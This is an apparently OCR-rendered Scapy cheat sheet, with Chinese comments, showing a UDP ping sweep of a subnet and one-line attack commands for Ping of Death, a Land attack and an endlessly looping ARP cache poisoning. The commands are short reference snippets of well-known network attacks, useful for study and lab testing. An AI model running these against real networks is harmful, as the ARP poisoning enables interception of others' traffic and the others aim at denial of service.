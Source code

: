 UDP Ping
```python
#选极可能关闭的端口，让存活主机产生ICMP Port unreachable error
ans,unans=sca.sr(sca.IP(dst="192.168.*.1-10")/sca.UDP(dport=0))
ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )
```

***

**Attack**

Ping of Death（当然，早就不管用了）
`send(fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)))`

Land attack
`send(IP(src=target,dst=target)/TCP(sport=135,dport=135))`

ARP Poison
```python
send(Ether(dst=clientMAC)/ARP(op="who-has",psrc=gateway,pdst=client),inter=RandNum(10,40),loop=1)

```

***

